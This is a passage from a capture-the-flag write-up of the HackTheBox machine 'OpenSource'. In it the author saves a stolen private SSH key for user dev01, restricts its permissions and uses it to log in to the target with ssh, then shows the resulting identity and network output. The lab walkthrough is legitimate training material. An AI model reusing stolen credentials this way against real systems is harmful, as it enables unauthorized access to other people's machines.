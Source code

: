![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/OpenSource/images/a20.png)

Yes!! **Let's copy and paste it to our attacker machine, and set it to be read/write only by our current user.**

```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nano dev01_id_rsa                    
                                                                                                                          
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# chmod 600 dev01_id_rsa
```

**Since we have a private SSH key for user `dev01`, we can login as `dev01` via `ssh`:**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# ssh -i dev01_id_rsa dev01@$RHOSTS
[...]
-bash-4.4$ whoami;hostname;id;ip a
dev01
opensource
uid=1000(dev01) gid=1000(dev01) groups=1000(dev01)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:49:2e brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.164/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:e6:59:a0:70 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
```
